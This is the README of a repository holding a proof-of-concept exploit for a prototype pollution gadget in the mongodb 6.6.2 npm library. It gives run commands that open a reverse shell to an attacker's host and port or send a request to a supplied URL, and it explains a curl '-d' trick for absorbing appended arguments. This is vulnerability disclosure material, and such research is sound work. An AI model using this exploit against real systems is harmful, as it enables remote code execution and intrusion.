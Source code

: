 # Prototype pollution gadget in mongodb@6.6.2

This repository contains PoC exploit for prototype pollution gadget I found in mongodb@6.6.2 NPM library. For details about the discovery and exploitation of this vulnerability as well as the solution I implemented, check out this [blog post](https://medium.com/@vuusale/brand-new-prototype-pollution-gadget-in-mongodb-leading-to-rce-8c5e0087c15e) about it. 

The exploit takes 1 or 2 arguments; IP and port for reverse shell, or a URL for making an HTTP request. A small change I made to the exploit is adding "-d" after URL. That's because "--idleShutdownTimeoutSecs 60" string is automatically appended to the command by the library, which causes unknown option error in curl. "-d" option turns it into the request's body, resulting in a POST request being made to the supplied URL. 

## Setup steps

1. Install nodejs and npm: `sudo apt-get install nodejs npm`
2. Install required dependencies: `npm install mongodb mongodb-client-encryption`
3. Run the exploit: `node poc.js <LHOST> <LPORT>` or `node poc.js <URL>`

## Docker installation

1. Pull the image: `docker pull vuusale/proto-gadget-mongodb`
2. Run the image: `docker run -it vuusale/proto-gadget-mongodb`
3. Run the exploit: `node poc/poc.js <LHOST> <LPORT>` or `node poc/poc.js <URL>`
